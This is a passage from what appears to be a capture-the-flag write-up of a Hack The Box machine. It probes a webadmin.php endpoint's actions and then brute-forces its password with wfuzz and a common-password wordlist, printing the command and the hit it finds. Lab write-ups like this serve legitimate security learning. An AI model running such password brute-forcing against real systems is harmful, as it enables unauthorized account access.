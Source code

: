 

#### webadmin.php

I'll use the other parameters from the javascript to build a url. I'll
start with hackthebox, and leave the password as \*s, and try each of
the actions. Everything I put in results in a 302 redirect, but in burp,
I can see sometimes data is returned.

  Parameters                                                 Result
  ---------------------------------------------------------- ---------------------------------------------------------
  `action=show&site=hackthebox&password=********&session=`   No Data
  `action=list&site=hackthebox&password=********&session=`   ![](/img/1551306419129.png)
  `action=exec&site=hackthebox&password=********&session=`   ![](/img/1551306481235.png)
  `action=init&site=hackthebox&password=********&session=`   No Data

For `action=list` it is complaining about the key. I'll find the
password with `wfuzz` (where `--hh 17` comes from running it without,
and seeing what I can filter, killing it, and adding that):



    root@kali# wfuzz -c -w /usr/share/seclists/Passwords/darkweb2017-top1000.txt --hw 0 --hh 17 'http://admin.hackback.htb//2bb6916122f1da34dcd916421e531578/webadmin.php?action=list&site=hackthebox&password=FUZZ&session='

    ********************************************************
    * Wfuzz 2.3.4 - The Web Fuzzer                         *
    ********************************************************

    Target: http://admin.hackback.htb//2bb6916122f1da34dcd916421e531578/webadmin.php?action=list&site=hackthebox&password=FUZZ&session=
    Total requests: 1000

    ==================================================================
    ID   Response   Lines      Word         Chars          Payload    
    ==================================================================

    000007:  C=302      7 L       15 W          197 Ch        "12345678"
